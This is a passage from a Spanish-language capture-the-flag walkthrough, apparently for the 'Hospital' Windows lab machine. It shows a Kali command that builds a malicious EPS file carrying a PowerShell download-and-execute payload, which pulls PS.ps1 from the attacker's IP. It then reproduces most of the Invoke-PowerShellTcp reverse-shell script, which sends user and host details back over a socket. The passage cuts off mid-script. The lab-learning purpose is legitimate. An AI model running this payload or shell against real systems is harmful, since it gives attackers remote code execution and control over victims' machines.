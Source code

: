 ~~~bash
┌──(kali💀Dedsec)-[~/Maquinas/Windows/Hospital]
└─$ python3 pyload.py --generate --payload "powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.34/PS.ps1')" --filename 3d-file --extension eps
~~~

- Ahora bien, acabamos de añadir una instrucción con la cual se nos hará una request a un server en nuestra máquina atacante, para esto, debemos de contar un archivo PS.ps1 que se encargue de establecer la conexión y devolvernos una PowerShell:

~~~powershell
function Invoke-PowerShellTcp 
{ 
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
~~~